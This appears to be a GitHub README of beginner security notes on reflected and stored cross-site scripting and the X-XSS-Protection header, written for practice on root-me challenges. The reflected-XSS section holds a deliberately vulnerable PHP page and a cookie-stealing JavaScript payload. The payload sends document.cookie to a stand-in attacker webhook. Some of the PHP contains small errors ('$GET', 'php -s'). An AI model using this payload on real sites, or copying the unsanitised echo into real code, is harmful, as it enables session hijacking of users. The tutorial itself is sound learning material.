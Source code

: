 # InfoSec related notes 

I have started to write down notes on security related resources I've been scanning.
This resource might be helpful for people just getting started with Information Security and for future blog posts by me.  

## License

[![CC BY-NC-SA 4.0](https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png)](http://creativecommons.org/licenses/by-nc-sa/4.0/)  

This work is licensed under a [Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License](http://creativecommons.org/licenses/by-nc-sa/4.0/).  

## The Notes Themselves
> Influenced by LiveOverFlow's youtube channel, and some additional resources 
> Videos [here](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)
> root-me platform [here](https://root-me.org)  

[comment]: <> (description will be added)  

### Web - XSS
Written on Sep 6 2019
> Influenced by a plethora of tasks on  [rootme](https://root-me.org/)
> and a LOT of googling  

Note that in order to play with XSS, you need to disable browser protection,
The following php codes must include:  
`
header("X-XSS-Protection: 0");
`  
You can read about this at [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
The HTTP X-XSS-Protection response header is a feature of Internet Explorer, Chrome and Safari that stops pages from loading when they detect reflected cross-site scripting (XSS) attacks. Although these protections are largely unnecessary in modern browsers when sites implement a strong Content-Security-Policy that disables the use of inline JavaScript ('unsafe-inline'), they can still provide protections for users of older web browsers that don't yet support CSP.
Albeit this will be futher explained later at this note.  

Also, you can find payloads to play with at [HTML5 Security Cheatsheet](http://html5sec.org/)   

#### 1. XSS - reflected  
   It is recommended that you try to read more about this in the docs section of root-me and try to solve a challenge for practice.  
   Initial code:  
   ```php
   <?php 
   // header included here
   // you will need a php server to run the example 
   // you can use the default php server by running
   // php -s localhost:80
   // read more about php built-in we server here
   // https://www.php.net/manual/en/features.commandline.webserver.php
   ?>
   
   <html>
    <body>
        <h1> <?php echo "Hello".$GET['try'] ?></h1>
        <!--
        This will output the concat result of Hello and what you supply as argument to the ?try parameter
        localhost:80/yourcode.php?try={payload later goes here}
        -->
    </body>
   </html>
   ```  
   supplying 
   ```javascript
   <script>console.log(1)</script>
   ``` 
   as input will be reflected in the webpage, thus the name **reflected Cross Site Scripting**  
   Of course writing to the console is boring, however this proves that we have code execution the context of the browser, an attacker may then leverage the full capabilities of JS with the ability to steal JS-accessible cookies which is usually the case for a session hijacking attack.  
   Read more about cookies and scoping [here](https://developer.mozilla.org/fr/docs/Web/API/Document/cookie)  
   Let's make our first payload. However, we will need some kind of session cookie. This can be done by  
   ```php
   <?php
   // Starting session
   // this will create cookies
   // you can them by viting the developer tools  
   session_start();
   ?>
   ```
   The session_start() function first checks to see if a session already exists by looking for the presence of a session ID. If it finds one, i.e. if the session is already started, it sets up the session variables and if doesn't, it starts a new session by creating a new session ID.  
   [official manual](https://www.php.net/manual/fr/function.session-start.php)  
   To our first test, let's try to steal the cookies:
   payload:
   ```javascript
   let element = document.createElement("img");
   element.setAttribute("src", "webhookurl/?"+document.cookie);
   document.body.appendChild(element);
   ```  
   The example above, gets the document cookie and appends it to the url of an attacker's controlled webhook.  
   _Note: Don't forget to urlencode_  
   for more advanced attack vectors try HTTP parameter pollution.  
   Read about that [here](https://www.owasp.org/index.php/4.8.1_Test_de_Reflected_Cross-Site_Scripting_(OTG-INPVAL-001))  
   Its time for you to go to rootme and play.  
   Additional for CTF creation: 
   **Check PhantomJS the scriptable headless browser, or selenium on python if you want to automate the behavior of a user**  

### 2. XSS - Stored 
   Written on Sep 6 2019 
   As You would have figured by now, for reflected XSS an attacker would have to send a URL with the payload in order to successfully perform the attack. This is not the case for stored XSS as it would trigger on every page which has the injected payload loaded from a file or a database. 
   This bug can be found on sections loading data dynamically from an external storage source, and the payload can be inserted in a signup/message/comment-like field.
   Same concepts for reflected XSS are inherited, however it is the client side equivalent to SQL injection, targeting users instead of the application itself.  
   ![alt text](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/sorted-XSS.png "image taken from impreva")  
   _Solve root-me tasks and if you have anything to add or any issues file a new issue_  

## Protection Headers   
### 1. X-XSS-Protection  
   Written on Sep 09 2019
   The **X-XSS-Protection** response header is a security feature implemented by Chrome, Safari, and IE to help block a webpage on the event of detecting reflected injection.  
   Note that modern browsers have stronger features such as CSP, which will be discussed latehowever this is handy when dealing a large portion of the user base relying on older browsers which do not support that feature.  
   In case you are running **Apache**, this can be added by just appending  
   ```
   Header set X-XSS-Protection " (code 0 or 1); [mode=block]"
   or 
   Header set X-XSS-Protection " (code 1); [report=<reporting-uri>]"
   ```  
   to the _.htaccess_ file.  
   In case you are running **Nginx** use the add_header directive  
   ```
   add_header "HEADER GOES HERE"
   ```  
   It is documented [**here**](http://nginx.org/en/docs/http/ngx_http_headers_module.html#add_header).  
   **code**: can be either 0 or 1, describing the state of the XSS filter (0 for disabled). With 1 set as value, the browser will try to sanitize the page removing the unsafe parts. Note that this is not the recommended usage as this can be leveraged by attackers to attack the business logic of a web-app still and hijack the execution flow of existing JS code.  
   **mode** (_optional but **recommended**_): can equal block, the browser will prevent the rendering of the page if an attack  is detected instead of trying to strip away the unsafe parts.  
   **report**: (_optional and available only on Chromium_), will report detected violations using the functionality of the CSP after sanitizing the page.  
   _For Browser compatibility, [**check MDN**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection#Browser_compatibility)__  

#  

### [REFERENCES AND READS]
* [XSS Attacks - Impreva](https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/)  
* [X-XSS-Protection Header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection/)  
* [CSP: Content Security Policy Header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/)  
* [XSS Injection - swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection/)  
